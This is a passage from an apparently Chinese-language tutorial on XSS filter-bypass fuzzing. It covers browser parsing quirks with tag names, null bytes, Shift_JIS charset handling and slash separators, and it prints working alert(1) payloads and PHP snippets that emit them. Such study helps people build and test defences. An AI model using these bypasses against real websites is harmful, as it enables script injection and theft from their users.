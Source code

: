 有一个有趣的现象是几乎所有浏览器对`$#33;`即`!`，浏览器会`<!`当成注释的开始，然后自动补齐剩下的代码，浏览器解析后的代码：

```
<div><!--a href="http://www.google.com/"-->33</div>

```

##### 针对标签名的Fuzzing：

```
<LԱ onclick=alert(1)>click me</LԱ>

```

上面的代码，在Chrom、Firefox和Safari中点击，可以顺利弹出1。

讨论一下空字符的问题，IE浏览器会自动忽略空字符，并解析剩下的代码，这样会绕过很多采用正则匹配黑名单字符串的过滤器。

并且，很多函数和库并没有意识到这个问题：

```
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>

```

用IE8打开上述代码的网页，查看源代码只能看到"<im"后面的字符都隐藏了。

还有两种方式可以对标签名Fuzzing，第一种是涉及字符集的问题，第二种是针对php中在过滤之前使用了utf8_decode()函数。

```
<?php
header('Content-Type: text/html;charset=Shift_JIS'); 
for($i = 1; $i <= 255; $i++) {    
    $character = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8');    
    $character = utf8_decode($character);    
    echo $character.'123456 '.$i."<br>\r\n";
} ?>

```

代码很简单，设置返回响应字符集为Shift_JIS，然后把utf-8转换为Shift_JIS字符集。

可以看到在IE中129-159和224-252中，123456中的1消失了，与前面的字符合并成一个字符了。

标签后面也可加入/符号做间隔：

```
<img/src=x onerror=alert(1)>

```

尝试在标签与/之间再插入其他字符来测试，由于空字符无法直观显示，所以用\0来表示null，同样主流浏览器都可以执行：

```
<img\0/src=x onerror=alert(1)>

```

再尝试ASCII码之外的字符，这种字符在正则表达式中\w是无法匹配到的，主流浏览器都可以执行：
